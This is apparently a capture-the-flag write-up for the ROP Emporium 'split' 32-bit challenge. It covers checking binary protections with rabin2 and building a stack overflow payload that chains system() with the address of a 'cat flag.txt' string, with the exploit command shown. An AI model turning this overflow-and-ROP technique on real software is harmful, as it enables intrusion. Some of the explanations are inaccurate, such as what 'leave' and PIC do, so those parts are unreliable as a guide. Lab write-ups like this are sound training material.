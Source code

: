 # SPLIT Writeup

## 32

Lets start with rabin2:
```bash
rabin2 -I split32
```
it gives us useful info on the binary

```bash
...
canary   false
endian   little
...
nx       true
...
pic      false
...
```
We gather that there is no canary protection on the stack frames. If we find a vuln buf we can overflow it and overwrite the EIP to jump where we want. Also, endianess is useful to know in which format the injected addresses has to be written, however, Intel always use little endian so it is an extra info. NX (Not eXecutable) means that the data section is not executable. PIC (Position Independent Code) is false, so there is no linked shared library.

Lets check also the strings contained in the binary

```bash
rabin2 -z split32
```
Our beloved _/bin/cat flag.txt_ exists also in this binary (LOL),
its vaddr will probably be useful for us.

Looking at the disassembled binary.
The _pwnme_ function allocates a buffer of size 32
and then calls fgets passing a buffer size of 92B,
so we can hopefully exploit these bytes of the buffer.

There is another interesting function in the binary: _usefulFunction_ can
be indeed useful cause it contains the _system()_ call. So, like in ret2win,
we would like to execute it. In this binary the _system()_ call executes
the string located at the _0x08048747_ vaddr, which is the _ls_ command.
We would like to execute the string located at the _0x0804a030_ vaddr,
the _cat <flag>_ command.

To achieve this (calling _system_ with the correct params)
we need first to understand how
the x86 calling conventions work. Basically, we just need to know that the
 params for syscalls are passed by pushing them on the stack
(this is not true for other architectures, which instead use registers).

We will overflow the buffer until reaching a gadget.
A gadget is a set of asm instructions which enable us to chain our addresses
to achieve the desired effect. In this case we want to overflow the buf until
reaching the gadget (here the gadget is the function epilogue)
```bash
leave
ret
```
This moves ESP (stack ptr) in EBP (base ptr),
then pops the address on the top
of the stack into the EIP (instruction ptr)
and then jumps to the addr stored in the EIP effectively
executing it.

[Side Note:start]

the "E" prefix in the registers' names indicates that these register
covers the less significant 32bits,i.e., if you have a 64bit arch you will
probably have lets say RAX which is a 64 bit accumulator register. Well,
EAX covers its 32 less significant bits. So, it is easy explained why you can
run this 32bit binary in your 64bit arch.

[Side Note:end]

So we chain **vaddr_system+vaddr_cat_string** to get system popped into EIP
and then execute with the vaddr of cat on the top of the stack (passed as param).

It is easier to view it in the following gdb-peda screenshot

![GDB-PEDA-split32-pwnme](img/split32-0.png "GDB-PEDA-split32")

### Exploit steps

The procedure I have followed to get the flag is similar to the one explained
in [ret2win](https://github.com/StefanoMunari/rop-emporium/blob/ret2win/ret2win/ret2win.md) solution. First, I've observed the behavior of the pwnme stack by injecting
strings of different sizes. Once I've understood how to exploit it,
I've crafted a string of the required size to obtain the desired
behavior (get the flag).

```bash
# create a named pipe
mkfifo /tmp/pipe
# add the command to the pipe
python -c 'print "A"*44+"\x57\x86\x04\x08"+"\x30\xa0\x04\x08"' > /tmp/pipe &
# execute the vulnerable function and inspect its state
gdb -q split32
# set a breakpoint
break pwnme
# execute the vulnerable function by reading the previous created named-pipe
run < /tmp/pipe
# look through the next n instructions/or simply press 'Enter' n times
n
# until reaching fgets, which loads our malicious string.
# look at the epilogue of this function (pwnme)
# we have system in the EIP and cat on the top of the stack,
# we will get our flag when the call will be executed!
```

## 64

## Tools

* [gdb-peda](https://github.com/longld/peda): a python extension for gdb. Useful to inspect binaries, search for patterns, gadgets, generate shellcodes, etc.
* [rabin2](https://www.gsp.com/cgi-bin/man.cgi?section=1&topic=rabin2): binary info extractor